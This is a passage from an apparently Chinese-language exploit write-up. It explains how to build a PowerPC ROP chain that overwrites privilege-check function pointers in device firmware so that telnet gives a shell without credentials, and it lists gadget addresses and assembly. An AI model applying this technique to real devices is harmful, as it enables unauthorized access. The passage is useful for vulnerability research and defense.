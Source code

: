 这里发生了一些有趣的事情。首先要强调的是，ptr_is_cluster_mode和ptr_get_privilege_level都是通过引用全局变量间接进行调用的。检查地址为0x00F47B60的代码行，我们发现is_cluster_mode函数的地址是从0x01F24A7处的dword中加载的。类似的，get_privilege_level函数的地址则是从0x3F47B8C处的r3寄存器中加载的。此时，r3的内容则是“残留”在地址0x022659D4 + 0x28 + 0xC处的一个已经解除引用的指针。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c642eb8b70c4e6b1.png)

如果ptr_is_cluster_mode调用返回非零值，并且ptr_get_privilege调用返回-1之外的值，那么我们将收到一个telnet shell，并且不需要提供任何登陆凭证。下面的代码用来检查变量privilege_level的值： 

[![](https://p0.ssl.qhimg.com/t01fe01635e6e01c07c.png)](https://p0.ssl.qhimg.com/t01fe01635e6e01c07c.png)

如何才能覆盖这些函数指针，让它总是返回所需的正值的呢？ 由于堆和栈无法直接执行，所以我不得不重用现有的代码来执行此类的内存写操作。为此，可以使用以下ROP零件： 



```
0x000037b4: 
    lwz r0, 0x14(r1)
    mtlr r0
    lwz r30, 8(r1)
    lwz r31, 0xc(r1)
    addi r1, r1, 0x10 
    blr
```

将is_cluster_mode函数指针加载到r30中，然后加载将该指针覆盖为r31的值。用于覆盖的值是一个始终返回1的函数的地址： 

[![](https://p3.ssl.qhimg.com/t0101a6e2e69cca48da.png)](https://p3.ssl.qhimg.com/t0101a6e2e69cca48da.png)



```
0x00dffbe8: 
    stw r31, 0x34(r30)
    lwz r0, 0x14(r1)
    mtlr r0
    lmw r30, 8(r1)
    addi r1, r1, 0x10
    blr
```

完成实际的写操作。



```
0x0006788c: 
    lwz r9, 8(r1)
    lwz r3, 0x2c(r9)
    lwz r0, 0x14(r1)
    mtlr r0
    addi r1, r1, 0x10
    blr
0x006ba128: 
    lwz r31, 8(r1)
    lwz r30, 0xc(r1)
    addi r1, r1, 0x10
    lwz r0, 4(r1)
    mtlr r0
    blr
```
